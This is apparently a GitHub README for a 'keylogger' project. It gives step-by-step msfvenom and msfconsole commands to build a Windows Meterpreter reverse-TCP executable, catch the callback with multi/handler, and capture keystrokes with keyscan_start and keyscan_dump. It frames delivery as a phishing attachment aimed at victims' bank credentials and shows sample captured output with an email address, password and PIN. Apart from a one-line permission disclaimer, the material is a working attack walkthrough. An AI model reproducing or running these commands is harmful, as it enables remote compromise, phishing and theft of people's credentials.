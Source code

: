 # Building a keylogger using Metasploit framework
# $${\color{red}Welcome \space \color{lightblue}To \space \color{orange}Seyigate}$$

Help suport this project!!!

<a href="https://www.buymeacoffee.com/seyiphysica" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

This project should be only take place in a control environment and written permission must be given by the system owner.
Seyigate will not be liable to any destructive occurrence in the network and system infrastructure. 

Check out below to learn how to use the metasploit framework. This project was explained in a simplex term and proof of concept included, however they work great! Feel free to fork and improve it if you want. Be sure to check out the [issues](https://github.com/Seyigate/gate_Keylogger/issues) or [pull requests](https://github.com/Seyigate/gate_Keylogger/pulls) to see if your problem has been fixed, or to help out others.


**Introduction** 

This project created a Keyloggerusing Metasploit framework, uses payload as mode of operation.

A payload is a piece of code that executes when hackers exploit a vulnerability. In other words, it’s an exploit module. It’s usually composed of a few commands that will run on the targeted operating system to steal data and other malicious acts.

Keyloggers are a particularly insidious type of program that can record and steal consecutive keystrokes (and much more) that the user enters on a device. 

The term keylogger, or “keystroke logger,” is self-explanatory: Software that logs what you type on your keyboard. However, keyloggers can also enable you to eavesdrop on you, watch you on your system camera, or listen over your smartphone’s microphone.

It’s not unlikely to find harmful payloads in an email attachment. One of the most effective ways to attack or compromise targeted system infrastructure is via phishing email 

**send emails with an attached .pdf file containing a malicious payload <sup>**keylogger**</sup> that will install a backdoor.**

If the victim downloads the file and double-clicks to open it, which will triggers the code in the background. This allows for serving a shell to access the victim’s computer when the victim sends a TCP connection.

Finally, the threat actor will be able to use payloads installed on the targeted machine to record and steal consecutive keystrokes (and much more) that the user enters on a device such as bank user credentials and lot more. 


# **Content**
* [Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)

## gate_keylogger
The aim is to create a payload called Meterpreter using Inbuilt Metasploit-framework see- [metasploit-unleashed](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)

Metasploit is handy for generating a reverse shell. The following command generates a reverse TCP shell with the Metasploit framework:
It generate a Windows reverse shell executable that will connect back to us on port 4444.
```
 ┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f exe -o keyshell.exe
```

For the purpose of this project, A listener interactive shell will be initiated, this will allows for serving a shell to access
the targeted machine when the victim sends a TCP connection to record and steal consecutive keystrokes that the user enters on a device.

```
  ┌──(kali㉿kali)-[~]
    └─$ msfconsole
```

In msfconsole, select an exploit module, which is exploit/multi/handler
multi/handler exploit is a stub that handles exploits launched outside of the framework.
it is also a remote exploit module, which can also engage multiple hosts.

```
  msf6 > use exploit/multi/handler
  msf6 exploit(multi/handler) >show info
```
 When using the exploit/multi/handler module, we still need to tell it which payload to expect so we configure it to have the same settings as the executable we generated.
 
```
  msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
  msf6 exploit(multi/handler) > show options
```

 Then configure the parameter appropriately
 
```
 msf6 exploit(multi/handler) > set LHOST 192.168.50.2
 msf6 exploit(multi/handler) > set LPORT 4444
```
Now that we have everything set up and ready to go, 
We run exploit for the multi/handler and execute our generated executable on the victim. 
The multi/handler handles the exploit for us and presents us our shell.

```
    msf6 exploit(handler) > exploit
```
The keyscan_start command starts the keylogging feature on the remote machine.
    Starting the keystroke sniffer ...
```
 meterpreter> keyscan_start    
```
 Starting the keystroke sniffer ...
 The keyscan_dump command is a keylogger feature. You must use the keyscan_start command before using keyscan_dump
   
```
  meterpreter> keyscan_dump
```
 Dumping capture keystrokes ...

 See the capturing kestrokes below

 <SHIFT> www.baclaysbank.co.uk
 
 <SHIFT>username> shift><yinkajah@gmail.com
 
 <CR>password><tap> R2jshb!@(*&^HB
 
 <CR>pin: 126782
 
 snip....

 For more details see *[Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)*


   




  



